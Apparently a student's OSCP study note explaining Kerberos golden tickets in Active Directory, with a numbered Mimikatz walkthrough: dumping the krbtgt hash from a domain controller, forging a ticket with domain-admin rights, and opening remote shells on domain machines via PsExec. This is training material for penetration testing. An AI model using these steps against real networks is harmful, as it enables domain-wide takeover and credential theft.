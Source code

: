 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/7-golden-tickets/","updated":"2024-01-05T11:37:05.085+01:00"}
---
```


---------
- TGTs are encrypted using the hash of the krbtgt user.
- If the hash of krbtgt could be acquired one could create custom TGTs, a.k.a. golden tickets.
- Golden tickets gives permission to access the entire domain's resources
- E.g. one could create a ticket stating that any user is a member of the Domain Admins group.
- To get the krbtgt hash a Domain Admin user is required, or if the domain controller itself is compromised.
- The ticket itself can be created from anywhere without privileges.
------------
### Generate Golden Ticket Locally Using Mimikatz:
1. Get hold of krbtgt hash, e.g. by compromising DC and dumping NTLM with "lsadump::lsa /patch".
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Purge all existing kerberos tickets in Mimikatz:
```
kerberos::purge
```
4. Generate ticket:
```
kerberos::golden /user:<golden-ticket-username> /domain:<domain> /sid:<domain-sid> /krbtgt:<krbtgt-hash> /ptt
```
5. Launch new command prompt:
```
misc::cmd
```
6. Use PsExec to launch shells to arbitrary domain machines:
```
PsExec.exe \\<host> cmd.exe
```
- Important to use hostname instead of ip since we want to authenticate with kerberos.



